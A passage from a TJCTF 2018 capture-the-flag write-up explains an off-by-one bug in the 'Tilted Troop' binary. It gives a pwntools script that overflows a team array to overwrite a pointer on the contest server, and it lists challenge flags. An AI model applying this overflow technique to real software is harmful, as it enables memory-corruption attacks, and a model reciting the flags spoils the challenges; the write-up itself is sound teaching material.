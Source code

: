 Flag: `tjctf{pYth0n_1s_tr1v14l}`

# Tilted Troop - Binary Exploitation

## Problem

Written by dwiz24

Can you help us defeat the monster? [binary](/blog/tjctf-2018-writeup/Tilted Troop/strover) ([source](/blog/tjctf-2018-writeup/Tilted Troop/strover.c))

## Solution

The problem used a mix of `<`, and `<=` allowing us to create 9 team although the `MAX_TEAM_SIZE` is 8, and because `strength` pointer is directly below `names` pointers, the last team's name pointer overrides the strength pointer allowing us to have full control over the strength attribute.

```c
struct team {
    char* names[MAX_TEAM_SIZE];
    char* strength;
    int teamSize;
} typedef team;
```

```python
from pwn import *

context.log_level = 'debug'
context.binary = './strover'

# sh = process('./strover')
sh = remote('problem1.tjctf.org', 8002)

print sh.recvuntil('Quit\n')

payload = 'bbbj'

for i in range(9):
  sh.sendline('A '+payload)
sh.sendline('F')


sh.interactive()
```

Flag: `tjctf{0oPs_CoMP4Ri5ONs_r_h4rD}`

# Caesar's Complication - Cryptography

## Problem
